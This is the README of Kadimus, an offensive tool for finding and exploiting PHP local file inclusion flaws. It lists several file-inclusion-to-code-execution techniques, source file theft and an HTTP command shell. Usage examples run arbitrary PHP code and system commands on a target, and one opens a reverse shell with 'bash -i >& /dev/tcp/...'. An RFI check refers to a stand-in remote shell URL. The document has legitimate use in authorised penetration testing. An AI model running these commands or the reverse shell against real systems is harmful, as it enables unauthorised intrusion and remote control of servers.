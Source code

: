  [![Rawsec's CyberSecurity Inventory](https://inventory.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.rawsec.ml/tools.html#Kadimus)
 [![GitHub stars](https://img.shields.io/github/stars/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/stargazers)
 [![GitHub license](https://img.shields.io/github/license/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/blob/master/license.txt)

# kadimus
LFI Scan &amp; Exploit Tool
--
kadimus is a tool to check and exploit lfi vulnerability focus on PHP systems

Features:

- [x] Check all url parameters
- [x] /var/log/auth.log RCE
- [x] /proc/self/environ RCE
- [x] php://input RCE
- [x] data://text RCE
- [x] expect://cmd RCE
- [x] Source code disclosure
- [x] Command shell interface through HTTP Request
- [x] Proxy support (socks4://, socks4a://, socks5:// ,socks5h:// and http://)
- [x] Proxy socks5 support for remote connections

## Compile:

First, make sure you have all dependencies installed in your system.
Dependencies: libcurl, libopenssl, libpcre and libssh

Then you can clone the repository, to get the source code:
```sh
$ git clone https://github.com/P0cL4bs/kadimus.git
$ cd kadimus
```

### And finally:

```sh
$ make
```

## Options:

```
Options:
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry-times NUMBER        number of times to retry if connection fails
    --proxy STRING              Proxy to connect, syntax: protocol://hostname:port

  Scanner:
    -u, --url STRING            URL to scan/exploit
    -o, --output FILE           File to save output results

  Explotation:
    --parameter STRING          Parameter name to inject exploit
                                (only needed by RCE data and source disclosure)

  RCE:
    -T, --technique=TECH        LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    --connect STRING            Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect or listen
    -l, --listen                Bind and listen for incoming connections

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text
      expect                    Try run a command using expect://cmd

    Source Disclosure:
      -S, --get-source          Try get the source file using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)

```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
```

### Get source code of file:
```
./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
```

### Execute php code:
```
./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
```

### Checking for RFI:

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:

```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"' --retry-times 0
```

Contributing
------------
You can help with code, or donating money.
If you wanna help with code, use the kernel code style as a reference.

Paypal: [![](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=RAG26EKAYHQSY&currency_code=BRL&source=url)

BTC: 1PpbrY6j1HNPF7fS2LhG9SF2wtyK98GSwq
